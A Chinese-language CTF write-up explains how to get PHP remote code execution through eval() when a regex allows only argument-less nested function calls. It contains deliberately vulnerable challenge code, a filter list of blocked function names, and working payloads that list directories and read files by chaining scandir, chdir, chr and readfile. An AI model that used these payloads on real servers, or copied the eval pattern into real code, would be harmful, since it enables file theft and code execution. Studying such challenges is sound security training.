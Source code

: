 # 关于CTF当中的无参数RCE

最近打了一场校内的比赛，又遇到了无参数RCE。

所以记录一下无参数rce的做法

## 什么是无参数

首先先看这个正则表达式`/[^\W]+\((?R)?\)/`

这个正则是对`()`的一个循环匹配，从传过来的参数当中进行匹配，匹配字母、数字、下划线，然后再匹配一个循环的`()`，将匹配的替换为空，判断剩下的是否只剩下`;`。

也就是说括号当中不能含有参数，这就是无参数。

## 例一：

```php
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
} else {
    show_source(__FILE__);
}
?> 
```

这道题就是一道无参数RCE的题，只是没有对函数进行过滤

无参数的题最重要的就是如何构造出`.`

**localeconv()**

localeconv() 函数返回一包含本地数字及货币格式信息的数组，且第一个元素为点（.)。

![image-20210410180114692](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410180114692.png)

**pos()**

pos() 函数返回数组中的当前元素的值（取第一个元素）。

![image-20210410180209879](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410180209879.png)

这样就构造出`.`来了

**scandir()**

scandir() 函数返回指定目录中的文件和目录的数组。

![image-20210410180639310](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410180639310.png)

这样就可以查看目录下的文件了

```
?code=var_dump(scandir(pos(localeconv())));
```

![image-20210410181254178](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410181254178.png)

再利用end函数就可以将数组指针指向最后

![image-20210410181406631](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410181406631.png)

**读取文件**

readfile — 输出文件

highlight_file — 语法高亮一个文件

show_source — 别名highlight_file()

file_get_contents — 将整个文件读入一个字符串

**readgzfile（）**可用于读取非gzip格式的文件。在这种情况下， **readgzfile（）**将直接从文件读取而不进行解压缩。

## 例二：

```php
<?php
if ($login && isset($_GET['code'])) {
    if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {
        if (!preg_match('/highlight_file|localeconv|pos|curret|chdir|localtime|time|session|getallheaders|system|array|implode/i', $_GET['code'])) {
            eval($_GET['code']);
        } else {
            echo "含有危险函数" . "<br/>";
        }
    } else {
        echo "不符合正则表达式" . "<br/>";
    }
}
?>
```

这一题过滤掉了很多的函数

不能用`localeconv`来构造`.`了

**chr()**

chr() 函数从指定的 ASCII 值返回字符。

利用这个函数只要构造出`46`来就可以构造出`.`了

![image-20210410193718817](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410193718817.png)

phpversion()会返回php版本，如`5.6.27`


`floor(phpversion())`返回`5`
`sqrt(floor(phpversion()))`返回`2.2360679774998`
`tan(floor(sqrt(floor(phpversion()))))`返回`-2.1850398632615`
`cosh(tan(floor(sqrt(floor(phpversion())))))`返回`4.5017381103491`
`sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))`返回`45.081318677156`
`ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))`返回`46`


即：`chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))`等于`.`

还有一个方法也可以构造出`.`来

```
chr(ord(hebrevc(crypt(phpversion()))))`返回`.
```

- `hebrevc(crypt(arg))`可以随机生成一个hash值 第一个字符随机是 $(大概率) 或者 .(小概率) 然后通过ord chr只取第一个字符

**crypt()**：单向字符串散列，返回散列后的字符串或一个少于 13 字符的字符串，从而保证在失败时与盐值区分开来。

**hebrevc()**：将逻辑顺序希伯来文（logical-Hebrew）转换为视觉顺序希伯来文（visual-Hebrew），并且转换换行符，返回视觉顺序字符串。

不过这个办法不是每一次都能构造出来

![image-20210410194214795](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410194214795.png)

![image-20210410194224286](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410194224286.png)

需要多试几次才行

## 其他构造方法

- 利用三角函数构造斜杠

```
chr(floor(tan(tan(atan(atan(ord(cos(fclose(tmpfile())))))))));
```

- 利用随机令牌构造点

```none
echo(implode(scandir(chr(strrev(uniqid())))));
```

- 利用当前秒数构造点

```
chr(pos(localtime()));
```

## 其他情况

如果文件不在数组的最后，而是在别的位置则可以利用这些函数

`array_rand()`-返回数组中的随机键名，或者如果您规定函数返回不只一个键名，则返回包含随机键名的数组。

`array_reverse()`-以相反的元素顺序返回数组

`current() `- 返回数组中的当前元素的值

`end()`- 将内部指针指向数组中的最后一个元素，并输出

`next()`- 将内部指针指向数组中的下一个元素，并输出

`prev() `- 将内部指针指向数组中的上一个元素，并输出

`reset()` - 将内部指针指向数组中的第一个元素，并输出

`each() `- 返回当前元素的键名和键值，并将内部指针向前移动



- 假设flag在上层目录文件的情况，我们需要跳转到上层目录。
- `chdir()`函数当参数为两个点的时候能够跳转到上层目录。`scandir()`，读取当前目录在第二个元素就能读取两个点
- localtime第一个参数是时间戳，所以我们不能直接嵌套，需要带一个time函数作为嵌套、time函数能够返回时间戳
- 构造读取上层目录payload

```
echo(implode(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv())))))))))));
```

- 构造读取上层目录文件payload

```
echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))))));
```

